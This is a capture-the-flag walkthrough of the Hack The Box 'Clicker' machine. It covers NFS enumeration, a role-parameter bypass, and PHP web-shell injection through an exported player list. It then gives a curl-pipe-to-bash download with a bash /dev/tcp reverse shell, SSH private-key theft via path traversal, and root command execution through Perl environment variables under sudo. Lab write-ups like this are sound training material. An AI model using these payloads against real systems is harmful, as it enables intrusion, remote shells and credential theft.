

# Clicker machine on [hackthebox](https://app.hackthebox.com)

Written by: Mustafa Musallati.

---

### Enumeration:


nmap scan result: 
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 06:02 EDT
Nmap scan report for clicker.htb (10.10.11.232)
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
|_  256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)1
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Clicker - The Game
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      40929/udp   mountd
|   100005  1,2,3      49719/tcp6  mountd
|   100005  1,2,3      49813/tcp   mountd
|   100005  1,2,3      54600/udp6  mountd
|   100021  1,3,4      32916/udp6  nlockmgr
|   100021  1,3,4      34567/tcp6  nlockmgr
|   100021  1,3,4      41603/tcp   nlockmgr
|   100021  1,3,4      41709/udp   nlockmgr
|   100024  1          32909/tcp   status
|   100024  1          37679/udp   status
|   100024  1          46131/tcp6  status
|   100024  1          54130/udp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Nmap done: 1 IP address (1 host up) scanned in 28.92 seconds
```

Open ports:
1) 22 - ssh
2) 80 - http
3) 111- rpcbind
4) 2049 - NFS


Checking the website:


We can register an account and log in to play the game which is a clicker game, so nothing useful until now....


Checking for shared mounts on the NFS server:


Good we have a public one, so let's mount it locally and see what can we get:




We have a zipped file, and if we tried to unzip it, it tells us that this file system is read only, so let's copy the file to another location so we can analyze it freely.

After copying it and extracting it we have a lot of php codes for the website and the game we saw earlier:


### Exploitation

After analyzing some files we find smth interesting in the "save_game.php" file....

If you read carefully when we save the game after playing, through the url request if we do add a "role" parameter to change it we will get a message preventing us due to malicious activity.

We need to find a way to bypass it.....
We can add a '=' url encoded to make it look like a key for the web server but for the database its gonna reach as valid parameter and update our role.
So we will register an account, log in and then send the following:
```
http://clicker.htb/save_game.php?clicks=10&role%3D%22Admin%22
```


After sending it we will log out and log in again with our user:


We have admin access!

The admins portal only lets us to export the top players name, but the way it works that it get the player names, then load them, so if we injected some php codes there, it can be executed.

So we will send the following request:
```
http://clicker.htb/save_game.php?nickname=clicks=100000000&%3C%3fphp+system($_REQUEST[%27cmd%27])%3b+%3f%3E
```
We are injecting some php code into the nickname which should be shown later in the top player list when exporting.


Doing in burp like so:


We changed the extension of the exported data to php in order to be able to execute our payload.

After we send this request, it will give us the path of the exported data:


Now let's go to that url and execute whatever command we want.

So we will do this command:

```
curl%20http://10.10.14.38/bashRev|bash
```

We open an http server locally to upload a bash reverse shell on the target machine .


The content of bashRev file:
```
bash -i >& /dev/tcp/<attacker IP>/PORT 0>&1
```

Final request is:
```
http://clicker.htb/exports/top_players_pnj0jd5w.php?cmd=curl%20http://10.10.14.38:8000/bashRev|bash
```

And finally we get a reverse shell:


After enumerating a bit in the machine we see an interesting directory in /opt:


We have a readme file and an executable file, so let's cat the readme file:


So this executable file can be used to do the following things.....


If we downloaded the file locally and used an online decompiler, like:
https://dogbolt.org/

We will see the following code: 

```
switch (rax_6)
        {
            case 0:
            {
                puts("ERROR: Invalid arguments");
                rax_2 = 2;
                break;
            }
            case 1:
            {
                strncpy(rax_7, "create.sql", 0x14);
                break;
            }
            case 2:
            {
                strncpy(rax_7, "populate.sql", 0x14);
                break;
            }
            case 3:
            {
                strncpy(rax_7, "reset_password.sql", 0x14);
                break;
            }
            case 4:
            {
                strncpy(rax_7, "clean.sql", 0x14);
                break;
            }
            default:
                strncpy(rax_7, argv[2], 0x14);
        }
        if (((((rax_6 > 4 || rax_6 == 1) || rax_6 == 2) || rax_6 == 3) || rax_6 == 4))
        {
            int64_t var_98;
            __builtin_strcpy(&var_98, "/home/jack/queries/");
            uint64_t rax_19 = strlen(&var_98);
            char* __arg1 = calloc(((strlen(rax_7) + rax_19) + 1), 1);
            strcat(__arg1, &var_98);
            strcat(__arg1, rax_7);
            setreuid(0x3e8, 0x3e8);
            if (access(__arg1, 4) != 0)
            {
                puts("File not readable or not found");
            }
```

You dont have to be good at coding or anything but just seeing the switch, let you know that the cases are the options we saw earlier, and the default case is:

It takes the second argument as a file, so for example if we did:
```
./execute_query "whatever" (wanted file)
```

We can read files, and where is the location we are at? it's the user home directory....

So how about we try to get his private key?

```
./execute_query 5 ../.ssh/id_rsa
```

And let's see the output....


We got it!!

let's copy it locally and use it to log in....


We put the key into a file and give it the following permissions:
```
chmod 600 "key file"
```

That is how ssh keys work.

Note: you need to fix the file because it  missing a - first line and last line, you can figure such things easily when comparing it to a valid key.


Then we will login:
```
ssh -i "key file" jack@10.10.11.232
```

And we have user!


If we do sudo -l as the user we can see that we can run a script and set env variables without password as root:


Let's see if we can exploit this script somehow...

This article was really helpful to exploit the environment variable so we can get root.
Link: https://www.elttam.com/blog/env/#content

So we can use perl environment variables to execute commands, and since we can do it with sudo that means they will be as root.

Let's try this id command as a test:
```
sudo PERL5OPT=-d PERL5DB='system("id");' /opt/monitor.sh
```


So we see it is executed as root, but we can only execute commands at a moment, means we can spawn a shell and complete with it, so we will read the ssh key in the root directory:


We will copy it locally and login with ssh using it(just like we did with the user).


And we have root FINALLY.

Thanks for reading!

Good hunting!! :)

---

Written by: Mustafa Musallati.
[LinkedIn](https://www.linkedin.com/in/mustafa-musallati-95a159260/)
[instagram](https://www.instagram.com/accaard/)


